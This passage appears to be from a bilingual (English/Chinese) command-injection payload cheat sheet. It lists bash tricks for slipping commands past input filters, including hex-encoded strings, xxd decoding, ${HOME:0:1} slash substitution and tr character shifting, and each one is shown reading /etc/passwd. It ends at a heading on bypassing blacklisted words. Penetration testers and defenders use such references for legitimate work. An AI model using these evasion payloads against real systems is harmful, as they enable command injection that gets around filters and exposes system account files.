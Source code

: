 Linux

```bash
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass characters filter - 绕过字符过滤

过滤反斜杠和斜杠的命令执行 - Linux bash

```bash
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### Bypass Blacklisted words - 绕过黑名单过滤

#### Bypass with single quote - 使用单引号绕过
